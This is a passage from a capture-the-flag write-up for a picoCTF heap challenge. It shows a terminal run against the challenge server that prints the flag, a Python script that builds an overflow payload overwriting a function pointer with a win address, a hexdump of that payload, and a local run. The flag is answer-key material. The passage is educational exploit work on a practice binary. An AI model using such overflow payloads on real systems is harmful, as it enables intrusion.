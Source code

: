 ```css
┌──(myenv)─(kali㉿kali)-[~/Downloads/heap2]
└─$ python3 test2.py 
[+] Opening connection to mimas.picoctf.net on port 52981: Done
[*] Switching to interactive mode
picoCTF{and_down_the_road_we_go_ba77314d}
[*] Got EOF while reading in interactive
$ 
$ 
[*] Closed connection to mimas.picoctf.net port 52981
[*] Got EOF while sending in interactive
```

---

another method without using pwn

```python
from struct import pack

# Address of the win function (adjust this according to your binary)
win = 0x4011a0

# Create the payload with proper input format
padding = b'a' * 32  # Adjust this size as necessary for the buffer

# Construct the payload
payload = (
    b'2\n' +               # First input: choose "2" to write to buffer
    padding +             # Buffer content (padding)
    pack("<Q", win) +     # Address of win function
    b'\n' +               # End of buffer input
    b'4\n'                # After writing to the buffer, choose option "4" to print the flag
)

# Write the complete payload to the binary file
with open('payload.bin', 'wb') as f:
    f.write(payload)

print("Payload created successfully in payload.bin.")

```

```css
┌──(myenv)─(kali㉿kali)-[~/Downloads/heap2]
└─$ hexdump -C payload.bin
00000000  32 0a 61 61 61 61 61 61  61 61 61 61 61 61 61 61  |2.aaaaaaaaaaaaaa|
00000010  61 61 61 61 61 61 61 61  61 61 61 61 61 61 61 61  |aaaaaaaaaaaaaaaa|
00000020  61 61 a0 11 40 00 00 00  00 00 0a 34 0a           |aa..@......4.|
0000002d  
```

```css
┌──(myenv)─(kali㉿kali)-[~/Downloads/heap2]
└─$ cat payload.bin | ./chall

I have a function, I sometimes like to call it, maybe you should change it

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: Data for buffer: 
1. Print Heap
2. Write to buffer
```